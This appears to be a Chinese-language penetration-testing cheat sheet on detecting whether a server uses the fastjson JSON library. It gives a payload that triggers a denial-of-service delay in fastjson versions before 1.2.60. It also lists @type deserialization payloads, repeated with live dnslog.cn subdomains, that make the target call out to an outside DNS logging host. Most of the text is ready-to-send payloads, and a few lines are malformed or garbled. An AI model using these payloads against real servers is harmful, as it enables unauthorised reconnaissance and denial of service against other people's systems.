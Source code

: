# 有错误回显

构造不规范的JSON字符串查看返回报错

# 无错误回显

## DOS延迟判断
fastjson在版本<1.2.60在取不到值的时候会填充\u001a，发生DOS，我们可以构造请求，通过响应延迟来判断是否使用的fastjson

使用 `{"a":"\x ` 作为payload发送至服务器，依靠延迟判断。如果是符合的版本(<1.2.60)，延迟会明显增大。

## DNS回显判断
通过DNS回显的方式检测后端是否使用的fastjson

```json
{"@type":"java.net.Inet4Address","val":"dnslog"}
{"@type":"java.net.Inet6Address","val":"dnslog"}
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"dnslog"}}""}
{{"@type":"java.net.URL","val":"dnslog"}:"aaa"}
Set[{"@type":"java.net.URL","val":"dnslog"}]
Set[{"@type":"java.net.URL","val":"dnslog"}
{{"@type":"java.net.URL","val":"dnslog"}:0
```

# 判断是fastjson还是jackson
Jackson相对比较严格，强制key和javabean属性对齐，只能少不能多key

fastjson多key不会报错，我们可以多构造一个，因此大概率判断为fastjson（没有其它json解析库的情况下）


{"@type":"java.net.Inet4Address","val":"wp7w20.dnslog.cn"}
{"@type":"java.net.Inet6Address","val":"9a9h3k.dnslog.cn"}
{"@type":"java.net.InetSocketAddress"{"address":,"val":"9a9h3k.dnslog.cn"}}
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"9a9h3k.dnslog.cn"}}""}
{{"@type":"java.net.URL","val":"9a9h3k.dnslog.cn"}:"aaa"}
Set[{"@type":"java.net.URL","val":"9a9h3k.dnslog.cn"}]
Set[{"@type":"java.net.URL","val":"9a9h3k.dnslog.cn"}
{{"@type":"java.net.URL","val":"dns9a9h3k.dnslog.cnlog"}:0